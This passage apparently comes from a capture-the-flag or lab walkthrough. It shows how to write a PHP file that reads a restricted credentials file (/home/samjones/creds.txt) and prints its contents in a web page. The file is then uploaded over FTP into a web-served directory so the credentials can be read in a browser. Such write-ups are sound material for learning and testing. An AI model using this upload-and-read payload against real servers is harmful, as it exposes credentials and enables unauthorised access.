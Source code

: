And, we can view our file in the browser.

![](./img/c21-image39.png)

Now we have a clue. If we can somehow get the contents of the text file into something the bowser can interpret and upload that file to the ftp-uploads directory, we should be able to view the contents of the restricted file (in theory).

Create a php file named **display.php** (or some other name you like) and fill it with the following, making sure to point to the correct directory and filename that you want to expose:

```php
<?php
$filename = '/home/samjones/creds.txt';
$content = file_get_contents($filename);
?>

<!DOCTYPE html>
<html>
<head>
<title>File Content</title>
</head>
<body>
<pre><?php echo $content; ?></pre>
</body>
</html>
```

Put the display.php file into the ftp-uploads directory via FTP:

```
put display.php
```

![](./img/c21-image40.png)
